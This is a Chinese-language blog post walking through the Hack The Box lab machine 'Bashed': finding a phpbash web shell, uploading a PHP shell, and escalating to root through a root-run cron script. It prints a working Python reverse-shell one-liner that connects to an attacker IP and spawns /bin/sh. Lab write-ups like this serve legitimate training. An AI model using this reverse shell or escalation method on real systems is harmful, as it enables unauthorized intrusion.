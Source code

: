 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/CCDKQSiQZrgPJA-QE732Xw)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **121** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/sGWlDp8sFCl67vCmcZr3JtQP0jB8suQiaKaKCVYPOezloiaicS8xMkAriaAQd3dTOPXicBTVStlX66kEffEWJOiczUTA/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/118

靶机难度：初级（4.5/10）

靶机发布日期：2017 年 12 月 20 日

靶机描述：

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/o62ddIpxjBd0kv6p3zb6uf1GiaCo9PiaF12hWQQSurxFPuVIDtsNTgUpjjvmib7GxKXNePVMAwJfzuib52MWoORPYg/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/Clq0o4fE5u6X5A1maTmqcvtEibdrsDO41kZPibRCHsX3Koj69GFK2qOyPwdcrgcDkHklrdJzBCiaQPuMVe11oSYHA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKshsaNg4EC44xXK62EqbDUh43P7JsGBjTxDhZ7oW7dXC0wgpPkGVibCw/640?wx_fmt=png)  

可以看到靶机的 IP 是 10.10.10.68....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKe3kDGb6k5K0Fr5PicwquWUBQP2KIzO7WCRB3M2FCFePttJUOH2mSTyg/640?wx_fmt=png)

发现只开放了 80 端口...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKYfSlQXNKvylYfPpqpNKT3ic257yN6bPh34zWVIkibkB2BYkibdibF3lJMw/640?wx_fmt=png)

浏览 web 直接跳过....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKJkiamG1gERzX0p0onkvbMbLAmK7wG93rLaYLic0ib9f6mGJUpeAwhthjg/640?wx_fmt=png)

直接爆破目录...

Dirbuster 发现了 dev 目录，其中包含 phpbash 脚本...

phpbash 是个反向外壳... 去看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKIgj7ibS6Ria8JpgXolkuH8gh4AGuYP7eA2B3KkeRkBIicgomoKanBVaTw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKe2D6HyiawpcpAn0icNmXezFToSGBAoJ2V0PLw2wWEXBo8uOkljOTzV6g/640?wx_fmt=png)

直接利用反向外壳，文件上传提权即可....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKgRAw4EybVnENQ5h4WKDx24fUWIicqia6usX6HV06YO4miaFSOwGCO9XUg/640?wx_fmt=png)

上传 php 简单 shell，获得了低权外壳....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKKnA2TXWoCThPEib1uF19sxcib1AF2kvVyNFA4Ou8ptBARmvAKeWvTv5A/640?wx_fmt=png)

通过低权外壳，获得了 user_flag 信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOK2YCdjnNgUEv4bMaCww0KShliaoB2Kyn7iaIyawQTZDlxdHaVlbA6ehrw/640?wx_fmt=png)

sudo -l 发现 all，无需任何密码可以直接 bash 到 scriptmanager 用户...

sudo -u 获得了 scriptmanager 用户权限....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKOibUWRuDxMXP8VK2k6vBqg5jIRibvjVOm3mb81gQpbNDhSNnTIVpYPaQ/640?wx_fmt=png)

枚举时发现 scripts 底层存在 test 文件脚本信息...

查看 test.py 文件信息，发现 test.py 每分钟执行一次，这可以通过阅读 test.py 并查看 test.txt 的时间戳来推断，该文本文件由 root 拥有，因为 root.txt 是 root 权限执行...

只需要修改 test.py 即可提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKfsQDVpnln8FwHcsic7wrVcljedDPNOX6WZfRJt1I4f4icC7Eicopj7FqA/640?wx_fmt=png)

简单 python_shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMywPfdR9SlmGZMs8nwkIOKXNQQhbHvpkkuZuzzDLiaGQMibhU0sCibySn6CKiaDn96WA2gic2eqia3te0g/640?wx_fmt=png)

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.51",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

等待一分钟后，自动提权 root.... 获得了 root_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/sGWlDp8sFCl67vCmcZr3JtQP0jB8suQiaKaKCVYPOezloiaicS8xMkAriaAQd3dTOPXicBTVStlX66kEffEWJOiczUTA/640?wx_fmt=png)

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台初级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/o62ddIpxjBd0kv6p3zb6uf1GiaCo9PiaF12hWQQSurxFPuVIDtsNTgUpjjvmib7GxKXNePVMAwJfzuib52MWoORPYg/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)